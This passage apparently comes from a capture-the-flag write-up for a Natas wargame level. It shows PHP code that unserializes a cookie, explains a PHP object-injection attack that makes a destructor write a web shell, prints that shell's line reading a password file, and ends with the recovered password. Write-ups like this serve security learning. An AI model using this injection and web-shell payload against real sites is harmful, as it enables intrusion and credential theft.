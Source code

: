 ```php
if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) && 
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) && 
                        array_key_exists("y2", $object)){
                            $color=imagecolorallocate($img,0xff,0x12,0x1c);
                            imageline($img,$object["x1"],$object["y1"],
                                    $object["x2"] ,$object["y2"] ,$color)
                        }
        }
```

Our overwritten variables do something since the destructors uses them. Destruct is called at the end of execution of the script which means our cookie has been loaded and replaced initMsg, exitMsg and logFile.

``` php
function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
``` 

We now open our custom log file 'img/n0j.php' which contains ` <?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n"`, so we when we load it we get the password of natas27.

55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ